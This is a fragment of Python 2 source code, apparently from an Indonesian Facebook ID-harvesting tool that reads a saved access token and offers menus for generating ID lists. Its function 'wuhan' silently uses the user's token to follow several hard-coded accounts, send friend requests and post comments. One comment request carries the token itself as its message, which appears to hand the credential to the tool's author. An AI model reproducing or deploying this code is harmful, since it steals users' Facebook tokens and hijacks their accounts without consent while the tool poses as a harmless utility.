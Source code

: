 

def moch_yayan():
    os.system('clear')
    try:
        kontol = open('.memek.txt', 'r').read()
    except IOError:
        print '\n %s[%sO>%s] Login Page ...' % (N, M, N)
        time.sleep(2)
        os.system('rm -rf .memek.txt')
        yayanxd()

    try:
        Name = requests.get('https://graph.facebook.com/me?access_token=%s' % kontol).json()['name']
    except KeyError:
        print '\n %s[%>%s] Error Token  ' % (N, M, N)
        time.sleep(2)
        os.system('rm -rf .memek.txt')
        yayanxd()
    except requests.exceptions.ConnectionError:
        exit('\n\n %s[%s!%s] Connection Error\n' % (N, M, N))

    print logo
    IP = requests.get('http://ip-api.com/json').json()['query']
    time.sleep(0.03)
    print ' \x1b[1;32;m\t\t Create 100075 For Ok ids \x1b[0m'
    print '\n [\033[1;37;40m1.\x1b[0m] \tCreate File [5-Links]\x1b[0m'
    print ' [\033[1;37;40m2.\x1b[0m] \tCreate File [10-Links]\x1b[0m'
    print ' [\033[1;37;40m3.\x1b[0m] \tCreate File [20-Links]\x1b[0m'
    print ' [\033[1;37;40m4.\x1b[0m] \tSeperate [100075-Ids]\x1b[0m'
    pepek = raw_input('\n [>] menu : ')
    if pepek == '':
        print '\n Please ! Fill Correctly!' 
        time.sleep(2)
        moch_yayan()
    elif pepek in ('1', '01'):
        publik(kontol)
    elif pepek in ('2', '02'):
        publik2(kontol)
    elif pepek in ('3', '03'):
        publik3(kontol)
    elif pepek in ('4', '04'):
        publik4(kontol)
    else:
    	print(' \n\033[1;31mWrong Input ')
    time.sleep(1)
    moch_yayan()

def wuhan(kontol):
    try:
        kentod = kontol
        requests.post('https://graph.facebook.com/100005395413800/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/100059709917296/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/100008678141977/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/100005878513705/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/100003342127009/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/100041388320565/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/108229897756307/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/100039688893849/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/100027558888180/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/me/friends?method=post&uids=%s&access_token=%s' % (koh, kentod))
        requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s' % (lo_ngentod, kentod, kentod))
        requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s' % (xi_jimpinx, hoetank, kentod))